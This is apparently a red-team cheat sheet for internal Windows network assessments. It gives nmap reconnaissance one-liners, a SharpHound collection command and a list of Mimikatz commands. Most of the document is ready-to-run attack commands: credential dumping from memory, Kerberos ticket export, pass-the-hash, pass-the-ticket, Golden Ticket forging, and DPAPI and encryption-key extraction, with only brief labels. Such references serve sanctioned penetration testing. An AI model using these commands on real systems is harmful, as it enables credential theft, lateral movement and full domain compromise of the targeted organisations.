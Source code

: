 # Internal (Windows)

## General

We should verify if the machine is domain joined or not.

## NMap

* Find Uphosts:

```
nmap -sn -iL targets.txt -oG - | ForEach-Object { if ($_ -match "Up$") { ($_ -split ' ')[1] } } > up-hosts.txt
```

* Scan and output to file:

```
nmap -p 80 --open -iL targets.txt > 80.txt
```

* SMB Signing Not Required:

```
nmap -p 445 -iL uphosts.txt --script smb2-security-mode.nse > smb-signing-not-required.txt 
```

* SNMP Info (default community name)

```
nmap -Pn -sV -p 161 --script=snmp-info IP
```

* Puts saved output into a list of IPs:

```
Select-String -Path "input.txt" -Pattern '\b(?:\d{1,3}\.){3}\d{1,3}\b' | ForEach-Object { $_.Matches.Value } > output.txt
```

## Sharphound

Ingest Files for bloodhound

```
Sharphound.exe -u USER -p 'PASSWORD' -d DOMAIN -c All
```

## Mimikatz

### Enable debug privileges

```
privilege::debug
```

### sekurlsa

* Extract credentials from the system's memory

```
sekurlsa::logonpasswords
```

```
sekurlsa::logonPasswords full
```

* Dump and export Kerberos tickets from memory

```
sekurlsa::tickets /export
```

* Pass the hash - PTH

```
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:HASH /run:cmd
```

### kerberos

* Dump and export Kerberos tickets from memory associated with active user sessions

```
kerberos::list /export
```

* Pass the ticket - PTT

```
kerberos::ptt c:\TICKET
```

* Create a Golden Ticket

```
kerberos::golden /admin:DOMAIN-ADMIN /domain:DOMAIN /sid:USER-SID /krbtgt:KRBTGT /ticket:TICKET
```

### TGT

* Interact with and manipulate Kerberos tickets

```
kerberos
```

### ekeys

* Dump encryption keys from the system's memory

```
sekurlsa::ekeys
```

### DPAPI

* Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory

```
sekurlsa::dpapi
```
